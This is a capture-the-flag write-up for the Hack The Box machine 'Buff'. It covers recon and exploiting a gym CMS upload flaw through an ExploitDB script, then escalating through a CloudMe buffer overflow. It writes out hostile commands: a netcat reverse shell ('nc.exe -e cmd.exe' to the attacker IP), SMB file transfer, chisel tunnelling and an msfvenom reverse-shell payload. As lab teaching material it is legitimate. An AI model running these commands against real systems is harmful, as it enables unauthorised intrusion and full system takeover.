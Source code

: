 # Buff [HTB](https://app.hackthebox.com/machines/263)
![buff-01](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Buff/img/buff-01.png)


## Recon 

After adding the target to my `/etc/hosts` file I start scanning for open ports:

```bash
nmap -p- --min-rate 10000 buff.htb
```

![ports-02](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Buff/img/ports-02.png)


Let's run a version detection scan againts this port:

```bash
nmap -p 8080 -sCV buff.htb -oN nmap.result
```

![nmap-res-03](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Buff/img/nmap-res-03.png)


We have the following:

+ An Apache/2.4.43 server on port 8080.


The nmap probing scripts have identified that the Apache server might have the `CONNECT` HTTP method enabled. This in effect allows the web server to act as a proxy server and make request to other target systems. I tried searching online for possible exploitaion strategies for this method, but I didn't find anything super clear, more theoretical stuff.


Based on the namp probing scripts we can also conclude that the Apache is powered by PHP/7.4.6, and that the target is probably running a Windows OS with an x64-bit architecture. 


### Apache port 8080


If we browse towards `http://buff.htb:8080/` we get the following:

![site-04](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Buff/img/site-04.png)


The site seems to be offering gym services, there are four link at the top strip and a sign in form. Each of the four links leads to a different php script in the website's root directory. All of the scripts return read-only informational content, no place to input stuff as users. 


If click the `Contact` button though, we will get the following text:

![cms-05](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Buff/img/cms-05.png)


At first I thought this was placed here by the creator of this box as some sort of troll, I didn't think this is an actual CMS. But I searched for this string on Google and I found an Unauthenticated Remote Code Execution exploit [here](https://www.exploit-db.com/exploits/48506). Wow..


In short, the `upload.php` doesn't check for a proper user session, which allows unauthiticated users to upload files. By reveiwing the source of `upload.php`, methods were identified for bypassing the MIME type checks, the file extensions checks, and the content-type checks. 


I tried to find a way to exploit this manaully, but the file upload requiers a dictionary with specific strucutre and objects for it to be accepted by the server. I decided to use the python exploit script instead of finding a way to pull this off with `curl` from the command-line.


After downloading the exploit I run and get a shell:


![shell-06](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Buff/img/shell-06.png)


But I didn't like this shell, I wasn't able to perform simple tasks like changing directories. Instead, I decided to transfer a copy of `nc64.exe` over to the target using an SMB server. 


First, I grab a copy of `nc64.exe` to my working directory and start the SMB server on my Kali with:

```bash
impacket-smbserver -smb2support -debug buff .
```

Then, I connect to the SMB server from the target and copy the file over:

```cmd
net use \\10.10.14.54\buff
copy \\10.10.14.54\buff\nc64.exe nc.exe
```

![copy-07](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Buff/img/copy-07.png)


Now I start my local listener on my Kali with:

```bash
rlwrap nc -lnvp 9009
```

And coonect from the target using:

```cmd
nc.exe -e cmd.exe 10.10.14.54 9009
```

Which gives me a shell:


![nice-shell-08](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Buff/img/nice-shell-08.png)


## Privilege Escalation


After landing on the machine I start hunting down quick wins. I list any permissions we have using `whoami /priv` but we don't have any interesting permissions. I look for any stored credentials using `cmdkey /list` but there are none. I also check for the presence of `Always Installed Elevated` vulnerability but I dont find any. 


So I shift gears and start looking around the filesystem, I start with `shaun`'s home directory at `C:\Users\shaun`. Inside the `Downloads` folder I see something interesting:

![downloads-09](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Buff/img/downloads-09.png)


I search for this executable online and I find a Buffer-Overflow exploit for it on [ExploitDB](https://www.exploit-db.com/exploits/48389). From what I understand `CloudMe Sync` is a synchronization application which syncs your local storage with the cloud storage, and it is listening on port 8888.


If we list the running processes on the target system with `netstat -ano` we can see the port is open:

![port-10](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Buff/img/port-10.png)


The service must run as adminstrator, otherwise the exploit won't help us escalate privileges. I tried to list the running processes on the system in order to make sure this service is actually running as the administrator, but I was denied access. Even though I wasn't able to make sure the service is running as the admin, I decided to bet on it. 


To try and exploit this, we first need to tunnel the service to our attack machine, I decided to use [chisel](https://github.com/jpillora/chisel).


I download an x64-bit executable chisel client for Windows using [this link](https://github.com/jpillora/chisel/releases/download/v1.9.1/chisel_1.9.1_windows_amd64.gz), I extract it in my attack machine using with `gunzip -d <archive>`.


Then, I tried to transfer the file using a python web server and downloading it from the target using `certutil` and `wget` but I was denied access. I also tried other methods but they all failed. 


So I deicded to try the SMB method again, but when I connect to my share from the netcat shell there are issues establishing the connection. So I decided to use the previous shell we had, which did mange to get files via SMB.


I start the SMB server on my Kali same as before:

```bash
impacket-smbserver -smb2support -debug buff .
```

I connect to the share from the target and download the files:

```cmd
net use \\10.10.14.54\buff
copy \\10.10.14.54\buff\chisel.exe C:\Users\shaun\chisel.exe
```

![copy-11](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Buff/img/copy-11.png)


And here it is in `shaun`'s home folder:

![found-12](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Buff/img/found-12.png)


Now we are ready to setup the tunnel. First, on the Kali, we need to start the server with:

```bash
chisel server -p 8001 --reverse
```

Then, from the target establish the tunnel using:

```cmd
chisel.exe client 10.10.14.54:8001 R:8001:127.0.0.1:8001
```

This will open port 8888 on our Kali, and transfer the traffic from target's localhost:8888 to it. 

![client-13](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Buff/img/client-13.png)


After connecting the client, I receive the connetion on the server:

![server-14](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Buff/img/server-14.png)


If we list the open ports on our Kali machine, we can see the cleint/server connection is established on port 8001, and the tunnel for port 8888 is open our Kali machine:

![port-14.5](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Buff/img/netstat-14.5.png)


With the tunnel established we can try the [exploit](https://www.exploit-db.com/exploits/48389). After downloading it, we need to change the payload for the buffer-overflow, as currently it starts `calc.exe`, which is not super useful.


At first I tried an x64-bit payload, which faild. But an x84 bit payload with the below syntax works:
 
```bash
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.54 LPORT=9999 -b '\x00\x0A\x0D' -f python
```

![venom-15](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Buff/img/venom-15.png)


I copy the entier output and place it in the exploit:

![exploit-16](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Buff/img/exploit-16.png)


I also change the variable names below to match the output from msfvenom:

![vars-17](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Buff/img/vars-17.png)


Now I start the local lisetner for the connection:

```bash
rlwrap nc -lnvp 9999
```

And I execute the buffer-opverflow exploit with:

```bash
python buffer-overflow.py
```

The exploit executes with no issues, and on my netcat listener I recieve a shell as the administrator:

![root-18](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Buff/img/root-18.png)

